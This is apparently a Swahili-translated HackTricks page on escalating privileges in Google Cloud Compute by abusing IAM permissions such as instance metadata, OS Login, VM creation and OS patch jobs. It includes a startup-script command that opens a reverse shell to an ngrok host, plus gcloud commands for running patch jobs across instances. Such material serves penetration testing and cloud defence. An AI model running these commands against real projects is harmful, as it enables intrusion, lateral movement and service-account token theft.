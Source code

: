 # GCP - Kubadilisha Mamlaka

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Kubadilisha

Kwa habari zaidi kuhusu Kubadilisha na VPC (mtandao) katika GCP angalia:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Tambua kwamba ili kutekeleza mashambulizi yote ya kubadilisha mamlaka yanayohitaji kubadilisha metadata ya kifaa (kama kuongeza watumiaji wapya na funguo za SSH) **inahitajika uwe na ruhusa ya `actAs` juu ya SA iliyowekwa kwenye kifaa**, hata kama SA tayari imeunganishwa!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Kwa ruhusa hiyo unaweza **kubadilisha** **habari ya metadata** ya **kifaa** na kubadilisha **funguo zilizoidhinishwa za mtumiaji**, au **kuunda** **mtumiaji mpya mwenye ruhusa ya sudo**. Kwa hivyo, utaweza kutekeleza kupitia SSH kwenye kifaa chochote cha VM na kuiba Akaunti ya Huduma ya GCP ambayo Kifaa kinatumika nayo.\
Vikwazo:

* Tambua kwamba Akaunti za Huduma za GCP zinazoendesha kwenye visa vya VM kwa chaguo-msingi zina **wigo mdogo sana**
* Utahitaji kuwa **na uwezo wa kuwasiliana na seva ya SSH** ili kuingia

Kwa habari zaidi kuhusu jinsi ya kutumia ruhusa hii angalia:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Unaweza pia kutekeleza shambulizi hili kwa kuongeza script mpya ya kuanza na kuanzisha upya kifaa:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Kibali hiki hutoa **madaraka sawa na kibali cha awali** lakini kwa mifano maalum badala ya mradi mzima. **Mbinu na vikwazo sawa kama kwa sehemu iliyopita inatumika**.

### `compute.instances.setIamPolicy`

Aina hii ya kibali itakuruhusu **kujipa jukumu lenye madaraka ya awali** na kukuza madaraka kwa kuvunja sheria hizo.

### **`compute.instances.osLogin`**

Ikiwa **OSLogin imeanzishwa kwenye mifano**, kwa kibali hiki unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye mfano. **Hautakuwa na madaraka ya msingi** ndani ya mfano.

{% hint style="success" %}
Ili kuingia kwa mafanikio na kibali hiki ndani ya mifano ya VM, unahitaji kuwa na kibali cha `iam.serviceAccounts.actAs` juu ya SA iliyowekwa kwenye VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Ikiwa **OSLogin imeanzishwa kwenye mfano**, kwa kibali hiki unaweza tu kukimbia **`gcloud compute ssh [INSTANCE]`** na kuunganisha kwenye mfano. Utakuwa na **madaraka ya msingi** ndani ya mfano.

{% hint style="success" %}
Ili kuingia kwa mafanikio na kibali hiki ndani ya mifano ya VM, unahitaji kuwa na kibali cha `iam.serviceAccounts.actAs` juu ya SA iliyowekwa kwenye VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Inawezekana **kuunda mashine ya virtual na Akaunti ya Huduma iliyowekwa na kuiba token** ya akaunti ya huduma kwa kupata metadata kuongeza madaraka kwake.

Skripti ya kuvunja sheria kwa njia hii inaweza kupatikana [hapa](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Ikiwa una **`osconfig.patchDeployments.create`** au **`osconfig.patchJobs.exec`** kibali unaweza kuunda [**kazi au uanzishaji wa kurekebisha**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Hii itakuruhusu kusonga kwa upande katika mazingira na kupata utekelezaji wa nambari kwenye mifano yote ya kompyuta ndani ya mradi.

Ikiwa unataka kuvunja hii kwa mikono utahitaji kuunda ama [kazi ya kurekebisha](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) au [uanzishaji](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) kwa kazi ya kurekebisha:

`gcloud compute os-config patch-jobs execute --file=patch.json`

Kwa kuanzisha uanzishaji wa kurekebisha:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

Zana za kiotomatiki kama [patchy](https://github.com/rek7/patchy) zipo kugundua vibali vya kulegea na kusonga kwa upande kiotomatiki.

**Unaweza pia kutumia hii kwa kudumu.**

### `compute.machineImages.setIamPolicy`

**Jipa madaraka ya ziada** kwa Picha ya Kompyuta.

### `compute.snapshots.setIamPolicy`

**Jipa madaraka ya ziada** kwa picha ya diski.

### `compute.disks.setIamPolicy`

**Jipa madaraka ya ziada** kwa diski.

### Pita Kupitia Viwango vya Kufikia

Kufuata kiungo hiki utapata [**mawazo ya jaribu kupita viwango vya ufikiaji**](../).

### Kupanda Daraja la Madaraka Kienyeji kwenye Mfano wa GCP Compute

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Marejeo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
